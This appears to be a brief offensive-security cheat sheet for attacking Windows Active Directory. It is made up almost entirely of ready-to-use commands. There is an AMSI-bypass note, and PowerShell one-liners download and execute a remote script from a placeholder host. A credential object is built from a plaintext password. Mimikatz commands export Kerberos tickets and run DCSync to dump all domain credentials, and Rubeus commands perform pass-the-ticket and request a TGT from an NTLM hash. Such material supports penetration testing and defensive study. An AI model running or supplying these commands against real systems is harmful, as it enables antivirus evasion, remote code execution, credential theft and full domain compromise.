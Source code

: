 Bypass folder of web server will have AMSI bypass splitted and loaded in parts, then, run whatever payload chosen.
### Powershell useful commands
```
# Load script to memory
(New-Object System.Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1') | iex
IEX (New-Object Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1')

# Create credential object
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```

### Mimikatz
```
# Export Kerberos tickets from memory
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::tickets /export"'
# DCSync:
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /domain:infinity.com /all"'
```

### Rubeus
```
# Monitor Kerberos tickets on unconstrained delegation machine
Invoke-Rubeus -Command "monitor /internal:5"
# Load Kerberos ticket:
Rubeus.exe ptt /ticket:base64
# Ask TGT:
.\Rubeus.exe asktgt /user:administrator /domain:infinity.com /rc4:5f9163ca3b673adfff2828f368ca3760 /ptt
```



